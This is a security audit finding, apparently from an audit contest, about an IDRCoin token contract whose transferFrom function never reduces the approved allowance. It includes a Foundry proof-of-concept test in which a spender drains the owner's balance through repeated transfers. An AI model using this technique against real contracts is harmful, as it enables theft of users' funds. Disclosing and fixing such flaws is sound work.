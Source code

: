 See it https://upload.fbrns.co/-aSqRPFv9Co/h1-IDRCoin-approve-can-be-used-multiple-times-with-transferFrom.md or https://git.fbrns.co/han/2025-01-scai-idrcoin/src/branch/audit/audit/h1-IDRCoin-approve-can-be-used-multiple-times-with-transferFrom.md

# [H-6] IDRCoin approve function can be used to call transferFrom multiple times

## Submitter

[hirugohan](https://github.com/0xhirugohan)

## Finding description and impact

IDRCoin enables a user to let someone to use a certain amount of their token through `approve` function. It will set the `allowances[msg.sender][_spender] = _amount;` which `_spender` is the other user, and `_amount` is the limit amount of token the other user can use.

Once `approve` is called, the other user can use the amount of token through `transferFrom` function. Other user can call `transferFrom` to send the `approved` amount of token from the prior user to anyone. But the problem is, once `approve` is called, the other user can call `transferFrom` multiple times and draining the prior user wallet.

## Proof of Concept

The code [https://github.com/farismln/IDRCoin/blob/main/src/IDRCoin.sol#L142-L158](https://github.com/farismln/IDRCoin/blob/main/src/IDRCoin.sol#L142-L158)

`transferFrom` function doesn't update the `allowances`. Once `approve` function is called, the trusted spender can drain money through calling `transferFrom` multiple times.

```solidity
  function test_failIf_transferFromIDRCoinMoreThanOnce() public {
    // create charlie address as the receiver
    address charlie = makeAddr(""charlie"");

    // alice convert 100 dollar worth of usdt
    convertUSDTtoIDR(alice, 100e6);
    vm.startPrank(alice);
    uint256 spendingAllowance = idrCoin.balanceOf(alice) / 4;

    // alice approve bob to transfer her IDRCoin
    idrCoin.approve(bob, spendingAllowance);
    vm.stopPrank();

    // bob transfer the IDRCoin from alice to charlie
    vm.startPrank(bob);
    idrCoin.transferFrom(alice, charlie, spendingAllowance);
    vm.stopPrank();

    // assert that now alice has his balance reduced to the amount of spendingAllowance
    assertEq(idrCoin.balanceOf(alice), spendingAllowance * 3);
    // assert that bob still has 0 because bob called `transferFrom` but doesn't send to himself
    assertEq(idrCoin.balanceOf(bob), 0);
    // assert that charlie as the receiver received the amount of spendingAllowance
    assertEq(idrCoin.balanceOf(charlie), spendingAllowance);

    // bob try to transfer the IDRCoin again from alice to charlie
    vm.startPrank(bob);
    idrCoin.transferFrom(alice, charlie, spendingAllowance);
    vm.stopPrank();

    // assert now alice has its balance reduced twice by spendingAllowance
    assertEq(idrCoin.balanceOf(alice), spendingAllowance * 2);
    assertEq(idrCoin.balanceOf(bob), 0);
    // assert now charlie has its balance increased twice by spendingAllowance
    assertEq(idrCoin.balanceOf(charlie), spendingAllowance * 2);
}
```

## Recommended mitigation steps

Mutate the `allowance` storage variable after the ERC20 transfer succeded in `transferFrom`
